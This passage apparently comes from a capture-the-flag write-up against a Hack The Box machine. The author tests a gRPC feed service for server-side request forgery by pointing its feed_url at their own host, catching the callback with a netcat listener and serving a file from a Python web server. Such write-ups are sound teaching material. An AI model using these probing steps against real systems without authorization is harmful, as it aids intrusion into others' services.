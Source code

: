 ```
        debug_error_string = "{"created":"@1599764147.724451006","description":"Error received from peer ipv4:10.10.10.201:9000","file":"src/core/lib/surface/call.cc","file_line":1061,"grpc_message":"Exception calling application: (6, 'Could not resolve host: printer.laserinternal.htb')","grpc_status":2}"
>

```

It looks like I’m getting back an actual response from the service this time:

```

details = "Exception calling application: (6, 'Could not resolve host: printer.laserinternal.htb')"

```

The lag must have been the server trying to do the DNS resolution and failing.

Some experimenting reveals that the `home_page_url` doesn’t seem to matter (at least not yet), so I’m focusing on the `feed_url`. When I set it to `http://127.0.0.1/feeds.json`, I get a new message back:

```

root@kali# python3 feedengine_client.py 
feed: "Error in retrieving feeds"

```

I set the `feed_url` to point to my host: `http://10.10.14.9/feeds.json`, and started `nc`. On running, I got a request:

```

root@kali# nc -lnvp 80
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 10.10.10.201.
Ncat: Connection from 10.10.10.201:50536.
GET /feeds.json HTTP/1.1
Host: 10.10.14.9
User-Agent: FeedBot v1.0
Accept: */*

```

I then created an empty `feeds.json` file, started a Python webserver, and ran again. I get the hit at the server:

```

root@kali# touch feeds.json
root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.201 - - [10/Sep/2020 16:05:38] "GET /feeds.json HTTP/1.1" 200 -

```

